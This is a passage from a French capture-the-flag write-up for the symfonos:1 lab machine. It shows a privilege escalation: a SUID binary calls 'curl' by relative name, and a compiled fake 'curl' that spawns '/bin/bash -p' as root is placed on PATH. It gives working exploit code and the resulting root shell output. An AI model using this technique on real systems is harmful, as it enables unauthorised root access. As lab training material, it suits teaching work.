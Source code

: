 Il ne semble qu'appeller `curl` :

```shellsession
helios@symfonos:~$ strings /opt/statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
--- snip ---
```

On va détourner l'exécution en compilant un programme nommé `curl` et en le mettant sur le `PATH` :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash -p");
}
```

Et c'est dans la poche :

```shellsession
helios@symfonos:~$ export PATH=.:$PATH
helios@symfonos:~$ gcc -o curl curl.c
helios@symfonos:~$ /opt/statuscheck
root@symfonos:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),1000(helios)
root@symfonos:~# cd /root
root@symfonos:/root# ls
proof.txt
root@symfonos:/root# cat proof.txt 

        Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
```